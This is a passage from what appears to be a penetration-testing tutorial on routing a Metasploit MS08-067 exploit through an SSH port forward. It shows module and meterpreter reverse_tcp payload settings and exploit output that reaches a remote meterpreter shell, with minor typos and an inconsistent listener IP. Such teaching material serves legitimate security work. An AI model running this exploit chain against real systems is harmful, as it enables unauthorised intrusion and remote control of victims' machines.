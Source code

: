 

## Configure Metasploit to use a SSH Pivot

The following is an example of how to configure Metersploit to use a SSH portward. In this example port 9999 is forwarded to the target and the attacking machine has an IP address of 192.168.2.100:

{% highlight bash %}
Setup the port forward (instructions above), then configure msfconsole as follows (using MS08_067 in this example).

 msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
   RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.2.100   yes       The listen address
    LPORT     443              yes       The listen port


 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
{% endhighlight %}

### Don't use 127.0.0.1 with Metasploit

<div class="note tip">
  <h5>Update: You can now use 127.0.0.2</h5>
  <p>Other 127.0.0.0 addresses can also be used (<code>127.0.0.3</code>,<code>127.0.0.4</code> etc), but not <code>127.0.0.1</code></p>
</div>


The example above uses 0.0.0.0 **Not 127.0.0.1**, never use 127.0.0.1 with Metasploit or you'll get the following error after you attempt to do anything post exploit:



{% highlight bash %}
 exploit(ms08_067_netapi) > exploit

 [*] Started reverse handler on 192.168.14.183:443
 [*] Automatically detecting the target...
 [*] Fingerprint: Windows XP - Service Pack 3 - lang:English
 [*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
 [*] Attempting to trigger the vulnerability...
 [*] Sending stage (769536 bytes) to 192.168.15.252

msf meterpreter > getuid